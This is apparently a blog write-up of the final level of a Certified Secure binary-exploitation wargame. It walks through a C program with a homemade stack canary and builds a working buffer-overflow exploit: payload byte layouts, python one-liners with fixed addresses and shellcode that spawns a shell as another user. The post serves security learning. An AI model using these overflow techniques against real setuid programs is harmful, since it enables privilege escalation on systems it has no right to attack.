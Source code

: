 ![Logo](/assets/images/belts-blue.png)


In this post we'll continue with level5, the last one from **Certified Secure Binary Mastery**, [Ensign](https://www.certifiedsecure.com/certification/view/37). 
This time we will be dealing again with more buffer overflow issues but we'll have to defeat a homemade implementation of buffer overflow detection. This is the most interesting level so far and it hides yet another logical vulnerability that will allow us to defeat the random stack canary.

To review the previous levels, check the links below:
* [Binary Master: Ensign - Level 1](https://livz.github.io/2016/01/07/binary-master-ensign-1.html)
* [Binary Master: Ensign - Level 2](https://livz.github.io/2016/01/14/binary-master-ensign-2.html)
* [Binary Master: Ensign - Level 3](https://livz.github.io/2016/01/21/binary-master-ensign-3.html)
* [Binary Master: Ensign - Level 4](https://livz.github.io/2016/01/28/binary-master-ensign-4.html)

## 0 - Discovery

Let's connect to the server and check the binary we're dealing with:
```
$ ssh level5@hacking.certifiedsecure.com -p 8266
level4@hacking.certifiedsecure.com's password: 
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 3.13.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

New release '16.04.2 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

   ___  _                      __  ___         __              
  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                 _            /___/  
                             ___ ___  ___ (_)__ ____ 
                            / -_) _ \(_-</ / _ `/ _ \
                            \__/_//_/___/_/\_, /_//_/
                                          /___/      
```

Let's see if we have any mitigation techniques using [checksec.sh](http://www.trapkit.de/tools/checksec.html), downloaded and run locally:
```bash
$ checksec.sh --file level5
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   level5
```

NX is disabled and again there is no stack canary. Why enable the stack cookie when we can do it ourselves, right?. Let's verify whether the stack is executable:

```
$ readelf -lW level5 | grep GNU_STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x10
```

The R**W**E flag suggests Read-**Write**-Execute flags are all enabled. Also remember from the previous levels that ASLR is disabled on the system and all the addresses are static.

## 1 - Vulnerability

```c
#include <string.h>
#include <stdio.h>
#include <stdlib.h>

int canary;

void __attribute__ ((constructor)) generate_canary() {
        FILE* fp = fopen("/dev/urandom", "r");
        fread(&canary, 4, 1, fp);                                [1]      
}

void hello(char* name) {
        int cookie = canary;
        int i = 0x12345;
        char* msg = malloc(128);
        char buf[12];

        strcpy(buf, name);                                       [4]
        sprintf(msg, "%s, it's good to see you!\n", buf);        [5]

        printf("%s", msg);

        if (cookie != canary) {                                  [3]        
                printf("*** stack smashing detected ***\n");

                abort();
        }
}

int main(int argc, char** argv) {
        if (argc != 2) {
                printf("Usage: %s <name>\n", argv[0]);

                return -1;
        }

        hello(argv[1]);                                          [2]

        return 0;
}
```

First let us understand how the program works:
* We have one constructor that generates a random 4 bytes canary by reading **/dev/urandom** (**[1]**)
* **Main** function accespts one input parameter which is passed to the **hello** function (**[2]**).
* The **hello** function set its first variable on the stack to the value of the canary. 
* In case any buffer overflow would try to overwrite the return address, it would have to overwrite also the canary. But this will trigger a program termination with an error (**[3]**)

Now let's see how we can break it. Again a stack layout of the function is very useful. We need to understand where each variable is located and what can be overwritten. Below I've renamed the variables in IDA to reflect the source code from level5.c:

![Stack layout](/assets/images/bm5-1.png)

* The **strcpy** call at **[4]** can overwrite the address of the newly allocate memory block in **msg**, which located immediately after the buffer.
* The **sprintf** call at **[5]** will write from **buf** the address overwritten by the call before.
* Basically we have a primitive that allows us to overwrite an arbitrary memory address

## 2 - Exploit

### Overwriting the canary

Because the canary is stored in a global variable, we can overwrite it:

![Global variable](/assets/images/bm5-2.png)

Then we'll supply our overwritten canary value in the buffer and carry on the exploitation as usual. Based on the observation above, a simple payload that just overwrites the canary with 0x01020304 would look like this:
```
| "\x04\x03\x02\x01" | JUNK (8 bytes) | "\x40\xa0\x04\x08" |
```

Explanation:
* At offset 12 in the payload we place the address that will overwrite (at **[4]**) the pointer generated by **malloc**
* First 4 bytes of the payload will be written to that address at **[5]**

We can test this in GDB and make sure we got this first step right:
```bash
gdb-peda$ run  $(python -c 'print "\x04\x03\x02\x01" + "A"*8 + "\x40\xa0\x04\x08"')
```

### Overwriting the return address

Building on the findings from the previous point, the following payload achieves full control of EIP, without triggering the error message:

* Overwrites the canary, as above
* Sends a buffer with the correct overwritten canary value, which will overwrite the **cookie** variable
* Overwrites the return address from **hello** function with "XXXX"

```
| "\x04\x03\x02\x01" | JUNK (8 bytes) | "\x40\xa0\x04\x08" | JUNK (4 bytes) | "\x04\x03\x02\x01" | JUNK (12 bytes) | RET | 
```

If it's not clear why, check again the stack layout from the image above. Basically the 4 bytes of junk represents the **i** variable, nexy we have the value that will overwrite **cookie** (has to be the same as the canary), 12 more junk bytes then the value for the return address.

Again, test this first in GDB:
```bash
gdb-peda$ run  $(python -c 'print "\x04\x03\x02\x01" + "A"*8 + "\x40\xa0\x04\x08" + "JUNK" + "\x01\x02\x03\x04" + 12*"A" + "XXXX"')
```

### Shellcode

In this case we can use the same approach as for levels 1-3 and place a shellcode spawning /bin/dash into an environment variable. Check [level1](https://livz.github.io/2016/01/07/binary-master-ensign-1.html) for more details.

## 3 - Profit

```
$ /levels/level5  $(python -c 'print "\x04\x03\x02\x01" + "A"*8 + "\x40\xa0\x04\x08" + "JUNK" +  "\x04\x03\x02\x01" + 12*"A" + "\xd6\xd8\xff\xff"')
AAAAAAAA@JUNKAAAAAAAAAAAA���, it's good to see you!
$ id
uid=1006(level5) gid=1006(level5) euid=1007(level6) groups=1007(level6),1006(level5)
$ /home/level6/victory
   ___  _                      __  ___         __              
  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                 _            /___/  
                             ___ ___  ___ (_)__ ____ 
                            / -_) _ \(_-</ / _ `/ _ \
                            \__/_//_/___/_/\_, /_//_/
                                          /___/      

Subject: Victory!

Congrats, you have solved the last level!. To update your score,
send an e-mail to unlock@certifiedsecure.com and include:
   * your CS-ID
   * which level you solved (level5 @ binary mastery ensign)
   * the exploit
```

This was the last level in this challenge set. Next set of levels, [Binary Mastery: Lieutenant](https://www.certifiedsecure.com/certification/view/37) will be even more fun :) as they include modern day vulnerabilities and mitigation techniques!
